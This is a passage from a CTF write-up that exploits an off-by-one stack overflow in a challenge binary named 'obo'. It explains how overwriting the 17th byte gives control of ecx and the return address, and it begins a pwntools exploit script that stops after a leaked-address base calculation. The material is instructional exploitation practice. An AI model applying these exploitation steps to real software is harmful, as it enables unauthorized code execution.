 ![alt text](/images/image-7-4.png)

After entering the input, we can see:

At `main+108`, the value `ebp - 8` will pop into `ecx` (`0xffffca80`), then `ret` will be at address `ecx - 4` (0xffffca7c). So if we can control the value of `ecx`, we can control `ret`.

`read` allows to enter up to 17 bytes so we can completely control `ecx` with the 17th byte. (`a0`). So just overwrite `a0` with `80` and we will return to the `gets_h` function.

However, because the program turns on `PIE`, the stack address will also change after each run, so we cannot know the exact value of that overwritten byte. Therefore, the ratio will be 1/16.

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./obo_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)
ld = ELF("./ld-linux.so.2", checksec = False)

context.binary = exe
p = process(exe.path)
# p = remote("188.166.252.88", 13373)

### LEAK LIBC ###
p.recvuntil(b'FYI: ')
fyi = p.recv(10)
exe.base = int(fyi,16) - exe.sym.init
```